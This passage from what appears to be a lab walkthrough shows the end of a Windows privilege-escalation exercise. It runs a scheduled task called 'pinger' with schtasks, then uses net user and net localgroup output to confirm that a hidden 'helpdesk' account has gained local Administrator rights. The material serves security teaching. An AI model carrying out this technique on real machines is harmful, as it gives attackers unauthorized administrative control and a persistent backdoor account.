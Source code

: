 3. **Run the Scheduled Task**:

   - If the task is set to run at logon, simply log off and back on to trigger it. Alternatively, run the task manually with:

     ```bash
     schtasks /run /tn "pinger"
     ```

---

### Verify Local Admin Access

Check if the `helpdesk` user has been added with administrative privileges:

```bash
net user
net user helpdesk
net localgroup administrator
```

After completing the steps, you should see this result, which shows that the privilege escalation worked:

```bash
C:\Users\normaluser>net user
User accounts for \\WIN10CLIENT

Administrator            DefaultAccount           Guest
helpdesk                 WDAGUtilityAccount
The command completed successfully.
```

The `helpdesk` user has been created. You can check its details:

```bash
C:\Users\normaluser>net user helpdesk
User name                    helpdesk
Account active               Yes
Account expires              Never
Local Group Memberships      *Administrators       *Users
The command completed successfully.
```

You can also verify that `helpdesk` is part of the Administrators group:

```bash
C:\Users\normaluser>net localgroup administrators
Alias name     administrators
Members

ADLAB\IT Admins
Administrator
helpdesk
The command completed successfully.
```

This confirms that the attack has added the `helpdesk` account to the Administrators group, giving it full control of the system.
